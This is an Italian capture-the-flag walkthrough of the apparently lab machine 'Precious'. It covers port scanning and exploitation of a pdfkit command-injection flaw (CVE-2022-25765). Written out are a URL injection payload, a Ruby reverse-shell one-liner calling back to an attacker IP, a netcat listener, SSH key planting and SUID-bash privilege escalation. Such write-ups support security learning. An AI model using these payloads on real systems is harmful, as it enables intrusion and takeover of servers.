### 1. Scan delle porte per cercare i servizi disponibili sul Server

```bash
nmap -sC -sV -oA nmap/scan 10.10.11.189 -v
```



- __Porta 22 (SSH)__ :OpenSSH 8.4p1 Debian 5+deb11u1 (protocolo 2.0)
La versione del servizio OpenSSH ci informa anche su quale distribuzione Linux si basa la macchina Server, in questo caso è _Debian_.

- __Porta 80 (HTTP)__: Nginx 1.18.0
Sulla porta 80 è in ascolto un WebServer Nginx, tra gli header della risposta notiamo un redirect verso http://precious.htb/, a tal proposito aggiungiamo questo dominio all'interno del file _/etc/hosts_ di Linux.



Se riproviamo ad eseguire lo stesso comando Nmap otteniamo ulteriori informazioni tra gli header della risposta riguardo un particolare modulo associato ad Nginx chiamato __Phusion Passenger__, si tratta di un Web Server integrabile con HTTP Apache o Nginx che supporta l'esecuzione di applicazioni basate su Ruby, NodeJS e Python.



### 2. Analisi della Web Application

All'indirizzo _http:\/\/precious.htb_ troviamo una web application che si presenta in questo modo:


Sostanzialmente ci consente di fornire degli URL corrispondenti a delle pagine Web e trasformarle in file PDF scaricabili.

Per testare l'applicazione ho creato un veloce web server sulla mia macchina Linux in ascolto sulla porta 8888 tramite questo comando Python3 eseguito nella directory _/var/www/html_ in cui è presente un semplice file index.html.

```bash
python3 -m http.server 8888
```

A questo punto basta sottoporre all'applicazione l'URL _http:\/\/10.10.14.99:8888_ e  immediatamente verrà scaricato un file PDF nominato con caratteri casuali contenente la versione PDF del nostro file index.html.

Nel mio caso il file index.html è la pagina di benvenuto di nginx, perciò il file PDF si presenta in questo modo:



Analizzando il file PDF appena scaricato con il tool _exiftool_ notiamo che è stato generato tramite il modulo __pdfkit__ versione 0.8.6 che è vulnerabile ad una Command Injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)), questa si verifica quando l'input non è sanitizzato correttamente.



Questa vulnerabilità può essere sfruttata per ottenere una limitata reverse shell eseguendo questo comando _ruby_ sul server.

```bash
ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.xx",9999);loop{c.gets.chomp!;($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

Adesso mettiamoci in ascolto sulla porta 9999

```bash
nc -lnvp 9999
```

A questo punto il payload da sottomettere all'applicazione per ottenere la shell è:

```bash
http://10.10.14.99/?url='%20`<PAYLOAD>`'
```

Al posto di \<PAYLOAD\> mettiamo il comando ruby precedente.

Adesso abbiamo una shell direttamente sul server!

### Abuso delle chiavi per ottenere una Shell SSH

Sulla macchina locale eseguiamo questo comando per generare la coppia di chiavi pubblica e privata:



Copiamo la chiave pubblica nel file _authorized\_keys_.



Trasportiamo questo file sulla macchina remota all'interno della directory _/home/ruby/.ssh_ tramite la reverse shell ottenuta precedentemente.

Per farlo creiamo nuovamente un server in ascolto sulla porta 8000 in _~/.ssh_



E sulla macchina remota nella directory _/home/ruby/.ssh_ scarichiamo file _authorized\_keys_ dal nostro server. 



Ora colleghiamoci tramite protocollo SSH come utente _ruby_ senza la necessità di sottoporre la password.



### Privilege escalation

Enumeriamo i file con bit SUID attivo



Il binario __/usr/bin/bash__ è posseduto da __root__ quindi con un semplice comando possiamo effettuare l'escalation da utente _ruby_ a utente _root_

